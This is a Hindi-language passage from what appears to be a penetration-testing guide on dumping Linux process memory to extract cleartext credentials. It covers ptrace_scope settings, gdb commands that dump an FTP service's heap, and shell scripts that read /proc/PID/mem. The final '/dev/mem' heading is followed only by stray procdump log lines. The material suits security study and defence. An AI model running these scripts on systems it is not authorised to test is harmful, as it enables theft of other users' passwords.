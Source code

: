 ### प्रक्रिया मेमोरी

सर्वर की कुछ सेवाएं **मेमोरी के अंदर साफ पाठ में प्रमाणपत्र सहेजती हैं**।\
सामान्यतः आपको **रूट अधिकार** की आवश्यकता होगी ताकि आप अन्य उपयोगकर्ताओं की प्रक्रियाओं की मेमोरी पढ़ सकें, इसलिए यह आमतौर पर जब आप पहले से ही रूट हैं और अधिक प्रमाणपत्रों का पता लगाना चाहते हैं तब अधिक उपयोगी होता है।\
हालांकि, ध्यान दें कि **आजकल अधिकांश मशीनें डिफ़ॉल्ट रूप से ptrace की अनुमति नहीं देती हैं** जिसका मतलब है कि आप अपने अनाधिकृत उपयोगकर्ता के लिए दूसरी प्रक्रियाओं को डंप नहीं कर सकते हैं।

फ़ाइल _**/proc/sys/kernel/yama/ptrace\_scope**_ ptrace की पहुंच को नियंत्रित करती है:

* **kernel.yama.ptrace\_scope = 0**: सभी प्रक्रियाएं डीबग की जा सकती हैं, जब तक उनका एक ही uid हो। यह ptracing का क्लासिकल तरीका है।
* **kernel.yama.ptrace\_scope = 1**: केवल एक माता प्रक्रिया को डीबग किया जा सकता है।
* **kernel.yama.ptrace\_scope = 2**: केवल व्यवस्थापक ptrace का उपयोग कर सकता है, क्योंकि इसके लिए CAP\_SYS\_PTRACE क्षमता की आवश्यकता होती है।
* **kernel.yama.ptrace\_scope = 3**: कोई प्रक्रिया ptrace के साथ ट्रेस नहीं की जा सकती है। एक बार सेट करने के बाद, ptracing को फिर से सक्षम करने के लिए एक पुनरारंभ की आवश्यकता होती है।

#### GDB

यदि आपके पास FTP सेवा की मेमोरी का उपयोग करने की अनुमति है (उदाहरण के लिए) तो आप हीप को प्राप्त कर सकते हैं और उसके प्रमाणपत्रों के भीतर खोज सकते हैं।
```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```
#### GDB स्क्रिप्ट

{% code title="dump-memory.sh" %}
```bash
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
gdb --batch --pid $1 -ex \
"dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```
{% endcode %}

#### /proc/$pid/maps और /proc/$pid/mem

एक दिए गए प्रक्रिया आईडी के लिए, **maps प्रक्रिया के भीतर कैसे मेमोरी मैप होती है दिखाता है**; यह भी दिखाता है **प्रत्येक मैप क्षेत्र की अनुमतियाँ**. **mem** प्सेडो फ़ाइल **प्रक्रिया की मेमोरी को उजागर करती है**. maps फ़ाइल से हमें पता चलता है कि **कौन से मेमोरी क्षेत्र पठनीय हैं** और उनके ऑफ़सेट्स. हम इस जानकारी का उपयोग करके **mem फ़ाइल में जाकर सभी पठनीय क्षेत्रों को डंप करते हैं** एक फ़ाइल में.
```bash
procdump()
(
cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
while read a b; do
dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
done )
cat $1*.bin > $1.dump
rm $1*.bin
)
```
#### /dev/mem

[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714